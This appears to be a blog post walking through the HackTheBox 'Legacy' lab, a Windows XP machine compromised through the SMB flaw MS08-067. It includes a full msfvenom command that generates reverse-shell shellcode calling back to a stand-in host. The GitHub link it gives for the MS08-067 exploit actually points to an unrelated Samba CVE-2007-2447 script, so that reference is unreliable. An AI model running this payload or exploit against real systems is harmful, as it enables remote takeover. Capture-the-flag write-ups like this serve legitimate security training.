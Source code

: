```yaml
---
layout: post
title:  "HackTheBox Legacy Walkthrough"
date:   2020-01-07 00:00:00 -0500
categories: Tutorials
---
```


```
 _                                 
| |                                
| |     ___  __ _  __ _  ___ _   _ 
| |    / _ \/ _` |/ _` |/ __| | | |
| |___|  __/ (_| | (_| | (__| |_| |
\_____/\___|\__, |\__,_|\___|\__, |
             __/ |            __/ |
            |___/            |___/ 
```


A good beginner box with multiple vulnerabilties.
<br/>

There are two SMB vulnerabilties that I found:
* smb-vuln-ms08-067 - This is Vuln that we will be going over in this walkthrough.
* smb-vuln-ms17-010 - One of my top favorite exploits, WannaCry/EternalBlue.


<br/>
<br/>


**1)** Scanned and saw that port 445 was open, also saw that the OS was running Windows XP.
![NMAP]({{ "/files/HTBLegacy_00.png" | absolute_url }})<br/> 
<br/>

**2)** Ran nmap SMB scripts to find vulnerabilities. Found *smb-vuln-ms08-067* and *smb-vuln-ms17-010*.
![vulns]({{ "/files/HTBLegacy_01.png" | absolute_url }})<br/>
<br/>

**3)** Found this exploit for *smb-vuln-ms08-67* on GitHub, be sure to install the required impacket dependencies. <https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py>
<br/>
All that is needed to be replaced is the shellcode with your own.
```msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows```
![shellcode]({{ "/files/HTBLegacy_02.png" | absolute_url }})<br/>
<br/>

**4)** Ran the ms08_067_2018.py exploit and was able to get a root reverse shell. Found the user.txt and root.txt. <br/>
![reverseShell]({{ "/files/HTBLegacy_03.png" | absolute_url }})<br/>
![user]({{ "/files/HTBLegacy_04.png" | absolute_url }})<br/>
![root]({{ "/files/HTBLegacy_05.png" | absolute_url }})<br/>